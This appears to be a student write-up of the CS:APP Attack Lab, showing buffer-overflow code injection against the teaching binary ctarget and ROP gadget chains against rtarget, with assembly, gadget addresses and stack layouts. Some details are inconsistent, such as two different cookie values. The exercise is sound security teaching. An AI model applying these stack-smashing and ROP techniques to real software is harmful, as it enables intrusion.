





# Attack Lab

### Content



### Prepration

每个文件的作用如下：

- `ctarget`: 用来做代码注入攻击的程序
- `rtarget`: 用来做 ROP 攻击的程序
- `cookie.txt`: 一个 8 位的 16 进制代码，用来作为攻击的标识符
- `farm.c`: 用来找寻 gadget 的源文件
- `hex2raw`: 用来生成攻击字符串的程序

### Operations

本lab默认运行环境为Linux环境，以下是在调试lab的过程中可能使用到一些命令：

- 反编译成汇编代码:  `objdump -d ctarget > ctarget.s`
- 利用`hex2raw`将字符串转化成攻击段落:  `./hex2raw < p1.txt > p1r.txt`
- 执行答案:  `./ctarget -q < p1r.txt` (注意自学版本无法提交只能使用`-q`参数否则会reject)
- 将`.c`文件编译成`.s`汇编文件: ` gcc -c p3.s`
- 将`.0`文件反汇编得到机器码:  `objdump -d p3.o > p3.byte`
- 新建文件:  `touch <filename>`
- 在`vim`中打开文件:  `vim <filename>`(后续操作参考[Vim](https://vim.fandom.com/wiki/Category:Usage))
- gdb调试:  `(gdb)b *<address>`或`(gdb)b <func_name>`(设置断点)，`(gdb)r -q`(运行程序)……

### Puzzels

#### Part I: Code Injection Attacks

For the first three phases, your exploit strings will attack `ctarget`. This program is set up in a way that the stack positions will be consistent from one run to the next and so that data on the stack can be treated as executable code. These features make the program vulnerable to attacks where the exploit strings contain the byte encodings of executable code.

##### 4.1 Level 1

For Phase 1, you will not inject new code. Instead, your exploit string will redirect the program to execute
an existing procedure.

Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement, rather than returning to test.

这一关中我们暂时还不需要注入新的代码，只需要让程序 CTARGET 在 getbuf 执行其 return 语句时重定向执行 touch1 的代码，而不是返回到 test。


其中buffer的空间是40字节，执行玩getbuf之后，程序会跳转到返回地址部分继续执行，因此，我们只需要提供一个足够长的字符串，将返回地址覆盖为touch1的地址，就能完成目标。

接下来我们需要确定 `getbuf` 到底创建了多大的缓冲区，检索 `getbuf`，代码如下：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

可以看到这里把 `%rsp` 移动了 `0x28`(40) 位，也就是说，我们的缓冲区有 40 位，再上面的四位就是原来正常需要返回到 `test` 的返回地址，我们要做的就是利用缓冲区溢出把这个返回地址改掉。凑够40位数字（Buffer）再加上8位数字（覆盖原返回地址的指向touch1的地址）即可

##### 4.2 Level 2

Phase 2 involves injecting a small amount of code as part of your exploit string.

Your task is to get CTARGET to execute the code for touch2 rather than returning to test. 

Level 2中的touch2函数会接收一个参数，然后将参数与cookie进行比对，如果相同，则先是通过。显然，我们需要通过注入到的方式将我们对cookie传递给touch2。实验文档提示我们，寄存器`%rdi`是touch2接收的参数存放的位置。那么我们只要想办法把cookie值赋给`%rdi`，然后将程序跳转到touch2即可，因此，我们需要将栈改造成这样：



所以第一步，我们先来写需要注入的代码(文件 p2.s)：

```assembly
mov $0x45374fee, %rdi
pushq $0x401860
ret
```

这里首先把参数传入到 `%rdi` 寄存器中，然后把 `touch2` 函数的起始地址压入栈中，最后返回，这样就可以跳转到 `touch2`。然后转换成对应的机器码

```bash
gcc -c p2.s
objdump -d p2.o > p2.byte
```

之后，我们需要知道我们这个代码插入的开始位置。由于分配内存空间是通过移动栈顶指针`%rsp`来实现的，因此，只要知道`%rsp`中的内容，就能知道我们输入的字符串所在的地址。这一步，我们使用gdb，查看`%rsp`的内容，可以看到指向的地址为`0x5561dc78`，然后将代码拼起来就是答案

##### 4.3 Level 3

Phase 3 also involves a code injection attack, but passing a string as argument.

Your task is to get `CTARGET` to execute the code for touch3 rather than returning to test. You must make it appear to touch3 as if you have passed a string representation of your cookie as its argument.

这次依旧是要向touch3方法传递参数，与Level 2不同的是，这次touch3接收的参数是一个指针，这就意味着我们不能直接将cookie值传递给`%rdi`,而是应该先为cookie分配内存空间，然后将内存地址传递给touch3。

这里有一个问题，因为touch3会调用一个hexmatch函数，因此如果我们在低位地址为cookie分配空间，那么很有可能会被hexmatch覆盖掉。一个好的解决方法是将cookie分配在高位地址，也就是高于返回地址的位置。

先理清这一关我们需要做的事情：

1. 为cookie字符串分配空间 （因为是字符串传递所以需要将其转换为ASCII码）
2. 将cookie的地址传递到`%rdi`
3. 将函数跳转到touch3

首先，getbuf分配的内存空间为40字节，也就是说，返回地址位于`%rsp+0x28`的位置，cookie字符串长度为8，因此位于`%rsp+0x30`的位置。我们注入的代码，需要将`%rsp+0x30`传递给`%rdi`,再将touch3的地址压入栈中。

因此，我们需要构造一个这样的栈：




于是先把 cookie 转换成字符串的表达形式，也就是

```
0x59b997fa -> 35 39 62 39 39 37 66 61
```

接下来，我们查找touch3的地址，为`0x4018fa`，再使用gdb查看`%rsp`的内容，为`0x5561dc78`，剩下部分与上一问相同，把cookie的地址作为参数传入到 `%rdi` 寄存器中，然后把 `touch3` 函数的起始地址压入栈中，接着返回，补全40位Buffer后改写地址，最后按顺序存入cookie的字符形式，这样就结束了这一问

#### Part II: Return-Oriented Programming



Performing code-injection attacks on program `RTARGET` is much more difficult than it is for `CTARGET`,

because it uses two techniques to thwart such attacks:

- It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.

- It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.



##### 5.1 Level 2

For Phase 4, you will repeat the attack of Phase 2, but do so on program `RTARGET` using gadgets from your
gadget farm. You can construct your solution using gadgets consisting of the following instruction types,
and using only the first eight x86-64 registers (%rax–%rdi).

> movq :	The codes for these are shown in Figure 3A.
> popq : 	The codes for these are shown in Figure 3B.
> ret : 		This instruction is encoded by the single byte 0xc3.
> nop : 		This instruction (pronounced “no op,” which is short for “no operation”) is encoded by the single
> byte 0x90. Its only effect is to cause the program counter to be incremented by 1.

根据前面的思路，我们大概要做的有三步：

1. 把 cookie 给搞到 `%rdi` 中
2. 把 `touch2` 的地址放入栈中
3. `rtn` 以开始执行

首先第一步，我们可以找寻线索的函数有：

```
0000000000401a08 <start_farm>:
  401a08:   b8 01 00 00 00          mov    $0x1,%eax
  401a0d:   c3                      retq   

0000000000401a0e <getval_440>:
  401a0e:   b8 48 88 c7 c3          mov    $0xc3c78848,%eax
  401a13:   c3                      retq   

0000000000401a14 <addval_394>:
  401a14:   8d 87 58 94 90 90       lea    -0x6f6f6ba8(%rdi),%eax
  401a1a:   c3                      retq   

0000000000401a1b <addval_304>:
  401a1b:   8d 87 66 58 90 c3       lea    -0x3c6fa79a(%rdi),%eax
  401a21:   c3                      retq   

0000000000401a22 <addval_104>:
  401a22:   8d 87 58 c3 50 83       lea    -0x7caf3ca8(%rdi),%eax
  401a28:   c3                      retq   

0000000000401a29 <getval_341>:
  401a29:   b8 5b 48 89 c7          mov    $0xc789485b,%eax
  401a2e:   c3                      retq   

0000000000401a2f <getval_278>:
  401a2f:   b8 41 48 89 c7          mov    $0xc7894841,%eax
  401a34:   c3                      retq   

0000000000401a35 <setval_371>:
  401a35:   c7 07 49 89 c7 c3       movl   $0xc3c78949,(%rdi)
  401a3b:   c3                      retq   

0000000000401a3c <getval_313>:
  401a3c:   b8 8c fa 58 c1          mov    $0xc158fa8c,%eax
  401a41:   c3                      retq   

0000000000401a42 <mid_farm>:
  401a42:   b8 01 00 00 00          mov    $0x1,%eax
  401a47:   c3                      retq
```

结合上表，我们想要插入一个数字，肯定需要 `popq` 指令，对应下来就是 `58 - 5f` 这个范围，因为 ROP 的缘故，我们还需要后面有个 `c3`，经过搜索，可以看到在 `addval_104` 中，有一段 `58 c3`，也就是把栈中的值弹入到 `%rax` 中，记住这个地址 `0x401a24`。

现在我们要做的就是把存放在 `%rax` 的值放到 `%rdi` 中，因为这样才能当做参数传给 `touch2` 函数。根据表里的内容，继续找，这次的目标是 `48 89 c7`，也就是 `movq %rax, %rdi`，很幸运，又在 `getval_341` 中找到了，后面还正好跟了个 `c3`，赶紧记下这个地址 `0x401a2b`。

接下来我们就可以凑 ROP 程序了，下面是栈顶，上面是栈底。

```assembly
0x00401860 (最后是 touch2 的入口地址，进行调用)
-------
0x00401a2b (把 %rax 的值放入到 %rdi 中，作为参数) -> gadget 2
-------
0x45374fee (我的 cookie，会被 gadget 1 存入到 %rax 中)
-------
0x00401a24 (旧的返回地址会被这里覆盖) -> gadget 1
-------
....
buf (缓冲区，这里随便写点啥都可以，反正都不能执行)
-------
```

- 注意目前基本上都是 64 位的机器架构，应该在每个语句后面补 0才能通过

##### 5.2 Level 3

To solve Phase 5, you can use gadgets in the region of the code in rtarget demarcated by functions start_farm and end_farm. In addition to the gadgets used in Phase 4, this expanded farm includes the encodings of different movl instructions, as shown in Figure 3C. The byte sequences in this part of the farm also contain 2-byte instructions that serve as functional nops, i.e., they do not change any register or memory values. These include instructions, shown in Figure 3D, such as andb %al,%al, that operate on the low-order bytes of some of the registers but do not change their values.

这个阶段需要把 cookie 转换成 ascii 码通过缓冲区溢出放到栈的某个位置，然后把指向这个字符串的指针放到 `%rdi` 中，最后调用 `touch3` 即可。给出的提示是使用 `movl`（对前四位进行操作）和诸如 `andb %al,%al` 的指令（只对低2位的部分操作），标准答案中最少需要使用 8 个 gadget。

具体描述整个思路：

1. 拿到 rsp 存着的地址
2. (然后把这个地址) + (cookie 在 stack 偏移量) pop 到某个寄存器中
3. 然后把这个寄存器的值放到 rdi 中
4. 然后调用 touch3
5. cookie 要放到 stack 最后面
6. 字符串最后加上 `\0` 也就是 `00000000` 来标志结束

从第二步到第三步，因为可用的指令的限制，需要借用不同的寄存器来进行转移跳转，最后完成对 `%rdi` 的赋值，具体的步骤如下：

```assembly
栈顶
mov  %rsp, %rax 48 89 e0 c3    0x401b11
mov  %rax, %rdi 48 89 c7 c3    0x401a2b
pop  %rax       58 c3          0x401a24
constant 0x48
movl %eax, %ecx 89 c1 20 c9 c3 0x401a98 (20 c9 没有影响)
movl %ecx, %edx 89 ca 28 c0 c3 0x401ac8 (38 c0 没有影响)
movl %edx, %esi 89 d6 38 c0 c3 0x401a68 (38 c0 没有影响)
lea  (%rdi, %rsi, 1), %rax     0x401a48
mov  %rax, %rdi 48 89 c7 c3    0x401a2b
touch3 的地址
cookie 的字符串
栈底
```

PS: 其实本实验配套的writeup文件已经对整个过程有了很详尽的指导，每句话看清楚学明白，做起来就不会很困难.
